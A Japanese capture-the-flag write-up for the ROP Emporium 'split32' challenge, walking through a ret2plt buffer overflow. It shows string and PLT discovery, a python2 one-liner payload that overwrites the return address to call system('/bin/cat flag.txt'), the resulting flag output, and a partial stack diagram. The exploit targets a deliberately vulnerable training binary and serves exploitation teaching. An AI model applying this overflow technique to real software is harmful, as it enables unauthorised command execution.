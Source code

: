 なんかlsが実行されているっぽい

だからどうにかして/bin/cat flag.txt  を実行してあげる必要がありそう。

運良く、/bin/cat flag.txtの文字列があった.

```
✦ ❯ rabin2 -z split32
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000006b0 0x080486b0 21  22   .rodata ascii split by ROP Emporium
1   0x000006c6 0x080486c6 4   5    .rodata ascii x86\n
2   0x000006cb 0x080486cb 8   9    .rodata ascii \nExiting
3   0x000006d4 0x080486d4 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x00000703 0x08048703 10  11   .rodata ascii Thank you!
5   0x0000070e 0x0804870e 7   8    .rodata ascii /bin/ls
0   0x00001030 0x0804a030 17  18   .data   ascii /bin/cat flag.txt
```



```
080483e0 <system@plt>:
 80483e0:       ff 25 18 a0 04 08       jmp    DWORD PTR ds:0x804a018
 80483e6:       68 18 00 00 00          push   0x18
 80483eb:       e9 b0 ff ff ff          jmp    80483a0 <.plt>
```

ret2pltの典型なので,

'A'*44+system()のアドレス+system()のreturn adress + system()の引数 "/bin/cat flag.txt"を入力してあげればいい

```
✦ ❯ python2 -c "print 'A' * 44 + '\xe0\x83\x04\x08' + 'BBBB' + '\x30\xa0\x04\x08'" | ./split32
split by ROP Emporium
x86

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
fish: Process 32366, './split32' from job 2, 'python2 -c "print 'A' * 44 + '\…' terminated by signal SIGSEGV (Address boundary error)
```

## 内部挙動

### pwnmeのstackの内容

stackの状況は以下のようになる

#### exploit前

\+ 高位アドレス

|アドレス| 内容 |
| ----- | :--------------------------------------: |
| esp -> | ... |
| |  |
| ebp - 0x28 |                 ebp-0x28                 |
| |                   ....                   |
| ebp -> |                saved ebp                 |
| ebp + 0x4 | return address for pwnme(まぁつまりmain)  |

